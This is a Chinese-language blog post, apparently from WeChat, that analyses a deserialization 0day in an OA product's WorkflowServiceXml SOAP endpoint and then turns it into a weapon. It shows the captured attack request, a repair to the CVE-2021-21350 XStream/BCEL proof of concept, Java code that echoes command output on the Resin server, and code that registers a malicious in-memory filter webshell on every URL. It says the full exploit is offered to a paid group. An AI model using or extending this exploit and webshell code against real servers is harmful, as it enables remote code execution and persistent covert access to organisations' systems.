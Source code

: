 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iTP9jBypsJEsSlAIaNOnhw)

最近在逛论坛的时候，发现有一哥们求助在自己的设备上发现某 oa 的 0day 流量。恰好手头有该 OA 的源码，于是开始分析一下

漏洞分析
----

流量中 http 的请求如下

```
POST /services%20/WorkflowServiceXml HTTP/1.1Accept-Encoding: gzip, deflateContent-Type: text/xml;charset=UTF-8SOAPAction: ""Content-Length: 33003Host: : 192.168.190.128User-Agent: Apache-HttpClient/4.1.1 (java 1.5)Connection: close<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">   <soapenv:Header/>   <soapenv:Body>      <web:doCreateWorkflowRequest>    <web:string>
```

虽然不全，但是也足够我们去分析了。一般情况下`WEB-INF`文件夹的`web.xml`文件含有该 j2ee 项目的所有信息，包括哪个 servlet 对应到哪个 class 类。所以我们看下该文件，如下所示

```
<servlet>
   <servlet-name>XFireServlet</servlet-name>
   <display-name>XFire Servlet</display-name>
<servlet-class>org.codehaus.xfire.transport.http.XFireConfigurableServlet</servlet-class>
</servlet>

<servlet-mapping>
   <servlet-name>XFireServlet</servlet-name>
   <url-pattern>/services/*</url-pattern>
</servlet-mapping>
```

看来 url 的`services`对应`org.codehaus.xfire.transport.http.XFireConfigurableServlet`这个类。我们去分析一下这个类。在 servlet 中，你可以简单地认为 get 对应 doGet 方法，post 对应 doPost 方法。这个 poc 显然需要分析 doPost 方法。但是很显然，doPost 方法，最终交由 controller 去处理。对于 java 这种强类型的语言的项目，我们可以直接右键，点击 implement 方法直接跳转到该处理函数，如图![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWje1lyasTMbw0KYOVc2WsfIuNK8QFgGRvOYXapkp6Hf17ibwts36Un2iag/640?wx_fmt=png)

doService 代码如下

```
public void doService(HttpServletRequest var1, HttpServletResponse var2) throws ServletException, IOException {        String var3 = this.getService(var1);        if (var3 == null) {            var3 = "";        }        ServiceRegistry var4 = this.getServiceRegistry();        var2.setHeader("Content-Type", "UTF-8");        try {            requests.set(var1);            responses.set(var2);            boolean var5 = var4.hasService(var3);            if (var3.length() != 0 && var5) {                if (this.isWSDLRequest(var1)) {                    this.generateWSDL(var2, var3);                } else {                    this.invoke(var1, var2, var3);                }
```

getService 方法获取服务名，也就是 url 中 service 后面的内容，在该 poc 中是`WorkflowServiceXml`。然后调用 invoke 执行。

在漏洞分析中，我们需要大致走通流程，对于这种我们需要了解服务对应哪个类。

分析 invoke 方法，首先调用`getService`方法，查找 service 对应的处理类是什么。代码如下

```
protected Service getService(String var1) {        return this.getXFire().getServiceRegistry().getService(var1);    }
```

这时候我们已经很明显的知道，这是使用 xfire 框架开发的模块。在 xfire 框架中，使用`service.xml`文件描述 service 名称与处理类的关系。在该 oa 中，该文件如下![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWjTukW5AYusibbFKphbKEYOCDrNzJguzShqeQhQsO2quu2BqWM7rcAqtQ/640?wx_fmt=png)

现在我们知道该 service 由`unicodesec.workflow.webservices.WorkflowServiceImplXml`来处理。而该 soap 消息，则是调用该类的某个方法和参数。在 invoke 方法中，其实是处理 soap 消息，然后根据 soap 消息调用相关方法。

在 poc 中，调用`doCreateWorkflowRequest`方法，我们看一下

```
    public String doCreateWorkflowRequest(String var1, int var2) {
        try {
            WorkflowRequestInfo var3 = (WorkflowRequestInfo)this.xmlutil1.xmlToObject(var1);
            var3 = this.getActiveWorkflowRequestInfo(var3);
```

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWjTib5NQakLeY2eQ6OUROkvOpX7qW2Fp8qGL5lYKDMyPNVXZudqUiaYfRA/640?wx_fmt=png)

很明显的 xstream 反序列化漏洞，而且该 oa 的 xstream 版本较低。我们直接使用 xstream 官网提供的 poc 验证一下就可以。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWjYGXyRj0hNicmS3Osh61kbrE0nPMZMA8SICNDIrrDfq6o3APeya8zB3g/640?wx_fmt=png)

武器化利用
-----

我们肯定不满足于弹窗，所以我们就要研究 resin 服务器怎么回显以及怎么做内存马。

### 修复异常

在这里我们为了更好地满足不出网这个需求，使用 cve-2021-21350 这个 poc。这个 poc 其实是无法使用的，会一直报错 nullPointException。这个 poc 使用 bcel 这个 classloader，可以将类的字节码通过编码隐藏到类名中。但是怎么会有空指针异常错误呢。下面介绍一下排查思路以及方法。

根据给出的错误堆栈，下断点到相应的函数以及位置

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWj5JV9yd2Yia10zqDbWWTgtnk09cX0nTTMpvnm1B6jAvHDPDogkWzLoqw/640?wx_fmt=png)

也就是`checkPackageAccess`方法，我们发现此时 domains 字段竟然为空。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWj7j1ssY8yoPeafgz5yszGPyz4IVtrhU3icvgeI0OKrNibK9CDFfRjmZRA/640?wx_fmt=png)

而根据 bcel 的 classloader 其实来源于 xstream 去反序列化 xml 得来。我们知道 xstream 会将被序列化的对象中所有字段通过 xml 来存储。如果某字段没有在 xml 中存储，则反序列化的时候该字段为 null。

问题找到了，下面讲一下怎么修复。首先通过 xstream 序列化一个正常的 bcel 的 classloader。然后从 xml 中摘出我们需要的字段的序列化 xml 片段，重组到 poc 中即可。如图![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFk6b2nVh1rh76jz1tHgVWjIXjuLS5Yr4Kt3RicpZkrhUebn1FoMSVDYibyZjnzIyklnS59Ndr7mVaQ/640?wx_fmt=png)

### 回显

既然我们想要做到武器化利用，肯定需要做该漏洞的回显，也就是将命令执行的结果输出到 http 的响应中。做回显，无非就是怎么找到本次 http 请求中 http 响应对象的位置。介绍一下思路

1.  Thread 中间件有可能将本次 response 对象和 request 对象存储在某一线程中，遍历直到找到该对象
    
2.  中间件可能将请求与响应的对象存储在某静态变量中
    

resin 这个中间件做回显简直太简单了。resin 将响应直接存储到静态变量，我们直接调用方法就可以获取。

代码如下

```
Class tcpsocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");            Method getCurrentRequestM = tcpsocketLinkClazz.getMethod("getCurrentRequest");            Object currentRequest = getCurrentRequestM.invoke(null);            Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");            f.setAccessible(true);            Object response = f.get(currentRequest);            Method getWriterM = response.getClass().getMethod("getWriter");            Writer w = (Writer) getWriterM.invoke(response);            w.write("powered by potatso");
```

### 内存马

直接介绍一下 resin 内存马实现的思路

1.  找到 webContext 这个对象，在中间件中该对象存储 webapp 的所有信息，例如 servlet 与 url 的对应关系，filter 与 url 的对应关系。寻找这个对象的方法参考前面寻找 response 对象的方法。
    
2.  将我们自己的恶意 filter 通过 defineClass 方法添加到服务器的 classpath 中
    
3.  添加 filter 与 url pattern 的对应关系
    

在 resin 中，每个 webContext 存储在静态变量中。可以通过 WebApp 的 getCurrent 静态方法获取当前的 webcontext 对象。调用 addFilter 添加内存马即可。代码如下

```
FilterMapping mapping = new FilterMapping();mapping.setFilterName("fuckyou");mapping.setFilterClass("你的filter的全限定名");mapping.setWebApp(w);mapping.setServletContext(w);w.addFilter(mapping);FilterMapping.URLPattern url = mapping.createUrlPattern();url.init();url.addText("/*");w.addFilterMapping(mapping);
```

exp 已经上传至星球，有需要的同学自取

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdEjSODheHaAokPQRjTKp7tI2r4IYIUKcqDicftqmvObxd3vkwRhaODMias2tsGEt2InTSWd4p8sPezQ/640?wx_fmt=png)